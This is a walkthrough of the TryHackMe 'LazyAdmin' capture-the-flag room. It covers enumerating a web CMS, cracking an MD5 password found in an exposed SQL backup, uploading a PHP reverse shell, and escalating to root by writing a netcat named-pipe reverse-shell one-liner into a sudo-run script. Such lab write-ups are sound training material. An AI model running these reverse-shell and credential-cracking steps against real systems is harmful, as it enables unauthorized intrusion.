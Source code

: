 # LazyAdmin

Have some fun! There might be multiple ways to get user access.

- What is the user flag?

	- `nmap -sV -sC <TARGET_IP>`. There are two services exposed: 22/tcp (ssh) and 1583/tcp (simbaexpress)
	- `nmap --script=vuln <TARGET_IP>`
	-		Nmap scan report for 10.10.58.33
			Host is up (0.081s latency).
			Not shown: 998 closed ports
			PORT   STATE SERVICE
			22/tcp open  ssh
			80/tcp open  http
			|_http-csrf: Couldn't find any CSRF vulnerabilities.
			|_http-dombased-xss: Couldn't find any DOM based XSS.
			| http-enum: 
			|_  /content/: Potentially interesting folder
			| http-slowloris-check: 
			|   VULNERABLE:
			|   Slowloris DOS attack
			|     State: LIKELY VULNERABLE
			|     IDs:  CVE:CVE-2007-6750
			|       Slowloris tries to keep many connections to the target web server open and hold
			|       them open as long as possible.  It accomplishes this by opening connections to
			|       the target web server and sending a partial request. By doing so, it starves
			|       the http server's resources causing Denial Of Service.
			|       
			|     Disclosure date: 2009-09-17
			|     References:
			|       http://ha.ckers.org/slowloris/
			|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
			|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
			
		Seems good.
	- Visit `http://<TARGET_IP>/content/` on browser.
	- `gobuster dir -u http://<TARGET_IP>/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- 	/images (Status: 301)
		/js (Status: 301)
		/inc (Status: 301)
		/as (Status: 301)
		/_themes (Status: 301)
		/attachment (Status: 301)
		Interesting...
	- In `http://<TARGET_IP>/content/inc` there is  `mysql\_backup` folder. Download the .sql file inside.
	- Open it with or something similar. You should read a line with a passwd header and the a hashed value.
	- Use `hash-identifier` to detect the type of the hash. MD5. ok.
	- `cat <HASH_HERE> > hash.txt`
	- `sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5`
	- Go into the login page `http://<TARGET_IP>/content/as/`
	- Login with the username inside the .sql file and the cracked password.
	- Go into `Ads` section.
	- Load the `rshell.php` into the content manager (change the IP address with yours!)
	- `nc -lvnp 1234` on your machine.
	- Go into `http://<TARGET_IP>/content/inc/ads` and click on the file you've just uploaded.
	- You gained a shell. `cd /home/itguy && cat user.txt`
	- `THM{63**bce92******ad111**********07}`

- What is the root flag?

	- `sudo -l`
	- Ok. We don't need sudo password for backup.pl and perl.
	- Analyze backup.pl, it runs /etc/copy.sh. Let'see.
	- It's a reverse shell. Change the specified ip address to yours.
	- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP_HERE> 5554 >/tmp/f" > /etc/copy.sh`
	- `nc -lnvp 5554` on your machine
	- `sudo /usr/bin/perl /home/itguy/backup.pl` on target machine.
	- `cat /root/root.txt`
	- `THM{663**41d01******7cb**********99f}`
